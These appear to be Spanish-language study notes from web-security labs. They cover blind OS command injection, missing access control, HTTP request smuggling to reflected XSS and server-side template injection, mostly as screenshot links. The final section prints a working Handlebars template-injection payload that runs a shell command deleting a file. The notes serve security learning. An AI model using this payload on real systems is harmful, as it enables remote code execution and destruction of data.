 # Inyección de comandos ciegos en el sistema operativo con redirección de salida

![[01.ComandosCiegos_RedireccionSalida.png]]
![[02.ComandosCiegos_RedireccionSalida.png]]
![[03.ComandosCiegos_RedireccionSalida.png]]
![[04.ComandosCiegos_RedireccionSalida.png]]

# Proceso de varios pasos sin control de acceso en un paso

![[01.PasosSinControlAcceso.png]]
![[02.PasosSinControlAcceso.png]]
![[03.PasosSinControlAcceso.png]]
![[04.PasosSinControlAcceso.png]]
![[05.PasosSinControlAcceso.png]]

# Explotación del contrabando de solicitudes HTTP para entregar XSS reflejado

![[01.ContrabandoSolicitudesHTTP.png]]
![[02.ContrabandoSolicitudesHTTP.png]]

# Inyección de plantilla del lado del servidor en un lenguaje desconocido con un exploit documentado

![[01.InyeccionDePlantillaExploit.png]]
![[02.InyeccionDePlantillaExploit.png]]
![[03.InyeccionDePlantillaExploit.png]]
```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

